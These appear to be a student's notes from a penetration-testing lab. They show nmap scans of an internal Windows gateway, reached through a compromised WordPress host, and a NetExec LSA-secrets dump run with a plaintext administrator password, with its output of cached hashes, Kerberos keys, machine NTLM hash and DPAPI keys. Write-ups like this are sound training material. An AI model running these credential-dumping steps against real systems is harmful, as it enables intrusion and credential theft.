

Same here but seems like no success so we can move on?



New scan from inside linux wordpress machine!

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.10.17
./nmap -F 10.9.10.17

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:42 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.10.17
Host is up (0.00045s latency).
Not shown: 239 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  epmap
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
www-data@corewebdl:/tmp$
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 64 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=cygw.cyber.local
| Subject Alternative Name: DNS:gateway.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2020-06-03T03:39:02
| Not valid after:  2022-06-03T03:39:02
| MD5:   acbd:38b1:c67f:07ee:0b9b:76a6:d71e:96f1
| SHA-1: 1974:25b5:aeac:91c9:404e:f243:e0cd:0488:b649:927b
| -----BEGIN CERTIFICATE-----
| MIIEizCCBDGgAwIBAgITJgAAADv1gFPTZQCCkgAAAAAAOzAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjAwNjAzMDMzOTAyWhcNMjIwNjAzMDMzOTAy
| WjAbMRkwFwYDVQQDExBjeWd3LmN5YmVyLmxvY2FsMIIBIjANBgkqhkiG9w0BAQEF
| AAOCAQ8AMIIBCgKCAQEA1Cf5cPThNbw2Ne1M83n4wWKAMcLVQ0CuJo9na1F6d8s2
| j5wg0cVYMiD7yy8FdNyqphi52H/q0vpOZYGzf1DmRpjSnTeQH6UgcwWczi04IRht
| WjAok56Dmt8IIdK0J5MtsOLws5IF3KXtZ1xxp4Uf9c8ZYQo4lfTNFXC0mCEK4FET
| SviNRsW4923YSiGZjWHWoXlc/jv0PhGQOLX/kDi2LqPkwgdnyL8wyffveUbcuTS6
| sAONylvSjft/7vp/pNqaW/DraPzZA+nlk9HC0KOzJX9YQCbx8jb4XOGOiAf8oR3I
| aJz5dPliXFwLP0+3T1CVRFGM4mD+ujyNO1CHvhAiLQIDAQABo4ICYTCCAl0wNgYJ
| KwYBBAGCNxUHBCkwJwYfKwYBBAGCNxUIh7uVNJ+RM4aJjTiE1p1mgdXEI2kBIwIB
| ZAIBATAbBgkrBgEEAYI3FQoEDjAMMAoGCCsGAQUFBwMBMA4GA1UdDwEB/wQEAwIF
| oDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNVHQ4EFgQUJjhiijN4gfUHu0MaN1o9
| B7MqXvwwHgYDVR0RBBcwFYITZ2F0ZXdheS5jeWJlci5sb2NhbDAfBgNVHSMEGDAW
| gBQxCqME8IezHrWipeqpwulhY5CsIjCBwwYDVR0fBIG7MIG4MIG1oIGyoIGvhoGs
| bGRhcDovLy9DTj1DeWJlci1DQSxDTj1jeWRjLENOPUNEUCxDTj1QdWJsaWMlMjBL
| ZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWN5
| YmVyLERDPWxvY2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmpl
| Y3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYBBQUHAQEEga0wgaow
| gacGCCsGAQUFBzAChoGabGRhcDovLy9DTj1DeWJlci1DQSxDTj1BSUEsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1jeWJlcixEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAKBggqhkjOPQQDAgNIADBFAiBT7eCA
| OSL1ztJNc4nPBBxPpEd//aeHNjWpAwXzquevhAIhAN9SDNl7Z3tqlt416xQoJrRM
| mFEdd3iW7LV79XxKvXaG
|_-----END CERTIFICATE-----
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2024-06-14T15:21:49+00:00; +1s from scanner time.
|_http-title: IIS Windows Server
445/tcp   open  microsoft-ds? syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
3388/tcp  open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: CYBER
|   NetBIOS_Domain_Name: CYBER
|   NetBIOS_Computer_Name: CYGW
|   DNS_Domain_Name: cyber.local
|   DNS_Computer_Name: cygw.cyber.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-14T15:21:39+00:00
| ssl-cert: Subject: commonName=cygw.cyber.local
| Issuer: commonName=cygw.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T14:55:39
| Not valid after:  2024-12-13T14:55:39
| MD5:   4666:bf68:5df0:93c6:d2e3:29cd:1a2b:017c
| SHA-1: aadb:0012:99cc:53b1:ae0a:9158:7661:249e:962f:3335
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQV2ELPNUVV61AnlQ5PASrNzANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBjeWd3LmN5YmVyLmxvY2FsMB4XDTI0MDYxMzE0NTUzOVoXDTI0
| MTIxMzE0NTUzOVowGzEZMBcGA1UEAxMQY3lndy5jeWJlci5sb2NhbDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAM+ulOOtpXtMxkS0J+gi9z+NNpfuRtbe
| 3nTa54+PFRd/lbbycO9WrGkadIH3HF2/TajAYClppT18OZmgm305HFBd2gijD3Cj
| a+6vFKqt7DKokccCSCfY6puMzXBkiFuUPzvdCjX5Kg9kuXItncGZYQ57GcwnA2f4
| XaImUjeitgFyw4xQzeWzaGZQT17MsSLKmMCmMQfKc4fOlYwSso/I7b6c99+aV4ih
| ODjW4RGhBFcno7RZGL3zZsRwomSBGMBMr+M+5qHh0d480+JFvUvaQTqNBhESlUdY
| 0YBs5azv1Go+w/MPiACqaQVvikja4mXGQgrFk9zSAT5xOWMAzJ0OG1ECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQCTA/mJpy515zr3as86Zj8R/3qTniv8B/1pX3GlvvxSxSxG0Pg6yRtc
| ZglyU2YFlskpiDfXolflapmi8hKel0l2owMyHoeEocf9Yd4qfiH7ZfP9aY1DX+If
| 1YUdIFcLfbPGi5Y2YF1mPDWperFkIprUrRyUbY1bBq3YNmKYx+zpRIknjG21q7RX
| +L4YKrdscvFDMY9oXnpn9s5Vm1UbajM6KpVGDccxSIbMNS2ZNR9mtMkm0LW3jAeO
| JuIoPecDpy5imUu4guwA8qwTg3tngexqOJikVClHCjvsYL97VU8VxA068EgmzjRh
| YdFp/3QG5YrcKCCz8cWNnbpzIjwmE36r
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T15:21:49+00:00; +1s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49687/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50151/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50248/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

&nbsp;

# Post

I will run a lsass dump again now with admin creds from CYDC:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.17 -u 'Administrator' -p '9ze9wL0C!3' --lsa
SMB         10.9.10.17      445    CYGW             [*] Windows 10 / Server 2019 Build 17763 x64 (name:CYGW) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.17      445    CYGW             [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
SMB         10.9.10.17      445    CYGW             [+] Dumping LSA secrets
SMB         10.9.10.17      445    CYGW             CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2024-03-28 15:16:06)
SMB         10.9.10.17      445    CYGW             CYBER\CYGW$:aes256-cts-hmac-sha1-96:c05fc024eda5c36d9e2f079bbfdd97e62a9a702d6d7cafbfba010121dcaf2409
SMB         10.9.10.17      445    CYGW             CYBER\CYGW$:aes128-cts-hmac-sha1-96:42c2f4e17a65eb4bb065e00b85b2d0ed
SMB         10.9.10.17      445    CYGW             CYBER\CYGW$:des-cbc-md5:ba5b6831ea383d2c
SMB         10.9.10.17      445    CYGW             CYBER\CYGW$:plain_password_hex:5700630036002c00290076004f00490077007900520062006b00500064006b0051006600420047006d002a003d005f002e002f0048005b00490063004c004a004e00300055005000780056002800210055006b003c006b00410042003d0066007a003e0022002e0074007700200049005c006900650077003e007600490058007400460055005900690062006a005e0061003b002e006c00290043002700480023006b003700220076003a005700430022005800720054002d00280038005d002a003a0078002f0041002c00360038005200420030006b00510041004c0047003500700057002d0069004a0038005d00
SMB         10.9.10.17      445    CYGW             CYBER\CYGW$:aad3b435b51404eeaad3b435b51404ee:8f3e4d76e844151e5dcf15a36555ef47:::
SMB         10.9.10.17      445    CYGW             dpapi_machinekey:0x9e38a18b4c569b9f0a76ae1bc650bd895cf973d8
dpapi_userkey:0x6eb8818433d26bbebd9a1a0bdb373bf2f956acd7
SMB         10.9.10.17      445    CYGW             NL$KM:5c28cd7a106740048f19948a2aee9c0a8df2a8e2c74f323d3f075a25057fc96be8905460e392dcd570e65e3fc49b0bde15eb470be001868c64d5220938275a49
SMB         10.9.10.17      445    CYGW             [+] Dumped 8 LSA secrets to /root/.nxc/logs/CYGW_10.9.10.17_2024-06-19_230306.secrets and /root/.nxc/logs/CYGW_10.9.10.17_2024-06-19_230306.cached
```

Same here nothing new, I feel confident I can move on.